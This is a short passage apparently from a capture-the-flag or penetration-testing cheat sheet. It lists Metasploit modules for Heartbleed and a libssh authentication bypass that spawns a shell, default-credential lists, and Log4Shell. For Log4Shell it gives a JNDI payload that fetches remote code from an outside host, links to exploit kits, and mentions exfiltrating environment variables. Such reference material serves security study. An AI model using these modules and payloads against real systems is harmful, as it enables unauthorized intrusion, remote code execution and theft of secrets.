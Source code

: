 * `Heartbleed`

	Metasploit module: `auxiliary/scanner/ssl/openssl_heartbleed`

	Be sure to use `set VERBOSE true` to see the retrieved results. This can often contain a flag or some valuable information.

* `libssh - SSH`

	`libssh0.8.1` (or others??) is vulnerable to an easy and immediate login. Metasploit module: `auxiliary/scanner/ssh/libssh_auth_bypass`. Be sure to `set spawn_pty true` to actually receive a shell! Then `sessions -i 1` to interact with the shell spawned (or whatever appropriate ID)

* `Default credentials` - [CheatSheet](https://github.com/ihebski/DefaultCreds-cheat-sheet/blob/main/DefaultCreds-Cheat-Sheet.csv)

    Unconfigured system can use the default credentials to login.

* `Log4Shell`

	Exploit on the Java library **Log4j**. Malicious code is fetched and executed from a remote JNDI server. A payload looks like `${jndi:ldap://example.com:1389/a}` and need to be parsed by Log4j.

	- [Simple POC](https://github.com/kozmer/log4j-shell-poc)
	
	- [JNDI Exploit Kit](https://github.com/pimps/JNDI-Exploit-Kit)

	- [ECW2022 author's WU](https://gist.github.com/Amossys-team/e99cc3b979b30c047e6855337fec872e#web---not-so-smart-api)

	- [Request Bin](https://requestbin.net/) Useful for detection and environment variable exfiltration.